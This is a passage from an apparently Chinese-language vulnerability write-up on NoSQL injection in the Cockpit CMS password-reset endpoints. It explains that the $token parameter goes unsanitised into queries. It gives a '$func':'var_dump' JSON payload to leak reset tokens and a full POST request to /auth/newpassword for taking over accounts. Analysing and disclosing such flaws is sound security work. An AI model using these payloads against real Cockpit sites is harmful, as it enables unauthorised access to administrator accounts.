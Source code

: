 
[![img](nosql注入.assets/t014461813a33f98bb1.png)](https://p0.ssl.qhimg.com/t014461813a33f98bb1.png)

 

## /auth/resetpassword

从前面的两处漏洞，已经可以得到后台的用户账户名了。接着我们可以利用漏洞3重置密码。

重置密码功能处理函数为`resetpassword()`，位于文件`modules/Cockpit/Controller/Auth.php`：

[![img](nosql注入.assets/t01b84f5814516b749c.png)](https://p2.ssl.qhimg.com/t01b84f5814516b749c.png)

在第150行，`$token`参数被传入查询之前，没有经过过滤净化，同样，在这样存在一个相同的漏洞：

```
{
    "token":{
        "$func":"var_dump"
    }
}
```

[![img](nosql注入.assets/t012f476bf851afd605.png)](https://p1.ssl.qhimg.com/t012f476bf851afd605.png)

 

## /auth/newpassword

无独有偶，在同文件的`newpassword`中，同样没有对`$token`参数做净化：

[![img](nosql注入.assets/t01d707f4153f8dc780.png)](https://p3.ssl.qhimg.com/t01d707f4153f8dc780.png)

同样存在NoSQL注入漏洞：

[![img](nosql注入.assets/t011d964bf0b864404d.png)](https://p1.ssl.qhimg.com/t011d964bf0b864404d.png)

### 获取用户密码

当获取了正确了`$token`之后，重新请求`auth/newpassword`：

```
POST /cockpit/auth/newpassword HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: application/json; charset=UTF-8
Content-Length: 60
Connection: close

{
    "token":"rp-bb6dfcbc16621bf95234355475d53114609bc6e8c336b"
}
```
